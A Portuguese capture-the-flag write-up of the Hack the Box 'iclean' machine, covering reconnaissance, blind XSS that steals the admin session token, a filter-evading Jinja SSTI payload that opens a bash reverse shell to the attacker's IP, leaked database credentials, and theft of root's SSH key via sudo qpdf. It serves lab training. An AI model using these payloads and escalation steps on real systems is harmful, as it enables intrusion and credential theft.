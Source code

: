 ```yaml
---
id: index
aliases: []
tags:
  - CTF
  - Hack the Box
authors:
  - paixao
date: "2024-08-20"
draft: false
showAuthor: false
showAuthorsBadges: false
summary: Resolução da máquina perfection do hack the box
title: Hack the Box - iclean
---
```


## Reconhecimento

A princípio realizamos o mapeamento das portas abertas no nosso alvo, bem como
seus serviços e versões.

```config
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.52 ((Ubuntu))
```

Ao tentar acessar o servidor WEB, nós somos redirecionados para o domínio
capiclean.htb. Dessa forma, adicionamos a seguinte linha no nosso arquivo
/etc/hosts para que esse domínio consiga ser resolvido.

```python
 echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

Após acessar a aplicação e realizarmos uma busca na aplicação por
vulnerabilidades, e nos deparamos com o endpoint "<http://capiclean.htb/quote>"
que trouxe uma mensagem suspeita:

```text
Your quote request was sent our management team. They will reach out soon via e-mail. Thanks for the interest you have shown in our services
```

Ao ler esta mensagem, automaticamente verificamos se algum parâmetro da request
enviada para o admin, vulnerável a XSS, pois se fosse o caso nós poderíamos
fazer a exfiltração do seu token e utilizar a app com privilégio máximo.

![Blind XSS ](blind-xss.png)

Utilizamos os payload acima para enviar o token de sessão do admin para um
servidor web que que levantamos com python utilizando o comando

```python
python3 -m http.server
```

Como resultado desse processo, obtivemos o token de sessão do admin
![Recebendo o token](get-token.png)

## Acesso inicial

De posse do token, enumeramos mais alguns endpoint da aplicação

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3- medium.txt:FFUZ -u http://capiclean.htb/FFUZ
```

E encontramos o endpoint 'dashboard' que tem acesso restrito. Dessa forma,
adicionamos o cookie de admin no browser e conseguimos acessar o endpoint.

Seguindo o 'happy path' da aplicação nós geramos um invoice, e posteriormente
tentamos acessá-lo por meio da função de geração de QRcode. Analisando os
parâmetros request, nós identificamos um SSTI no parâmetro 'qr_link'

![SSTI](SSTI.png)

Uma vez que identificamos esta vulnerabilidade, nós iniciamos os testes com
payloads diversos para conseguir uma shell reversa. O payload a seguir foi o que
nos possibilitou acessar o sistema

```python
 {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/Nosso_IP/4444 0>&1'")|attr("read")()}}
```

## Escalação de privilégio

Uma vez que conseguimos executar código na máquina alvo, realizamos uma
varredura na em sua infraestrutura. Começamos pelo código fonte da aplicação.
Nele encontramos algumas credenciais de banco de dados:

```python
db_config = {
'host': '127.0.0.1',
'user': 'iclean',
'password': 'pxCsmnGLckUb',
'database': 'capiclean'
}
```

Ao verificarmos as portas abertas na aplicação, percebeu-se que a porta 3306
estava aberta. Indicando que existe um banco MySQL em execução. De posse dessa
informação utilizamos as credenciais antes encontradas no código para assim
consegui ter acesso aos dados do banco

```bash
mysql --database capiclean -e 'show databases;' -u iclean -p
```

Após isso, tentamos quebrar ambas as hashs e tivemos sucesso em quebrar apenas a
hash do usuário 'consuela' que resultou na senha 'simple and clean'. Com a senha
e o usuário foi feita a tentativa de logins via ssh.

```bash
ssh consuela@$rhost
```

Que foi bem sucedida. Agora com a shell ssh verificamos se algum comando
habilitado a ser executado com privilégio de sudo.

```bash
sudo -l
```

Após entender do que se trata a plicação. Fizemos a seguinte suposição, se o
usuário consuela tem ssh, o usuário root também deve ter ssh. Sendo sua chave
privada armazenada no arquivo /root/.ssh/id_rsa, nós poderíamos mandar criar um
pdf com o conteúdo da chave ssh do usuário root e direcionarmos esse pdf para um
diretório acessível.

```bash
 sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa
```

Após a suposição se mostrar verdadeira, nós resgatamos a chave ssh ao verificar
o conteúdo interno do pdf, nós realizamos o login via root por meio do comando

```bash
ssh root@$rhost -i root_ssh_key_file
```

Com isso nós temos acesso ao usuário root e podemos ver a última flag

```bash
cat root.txt
```
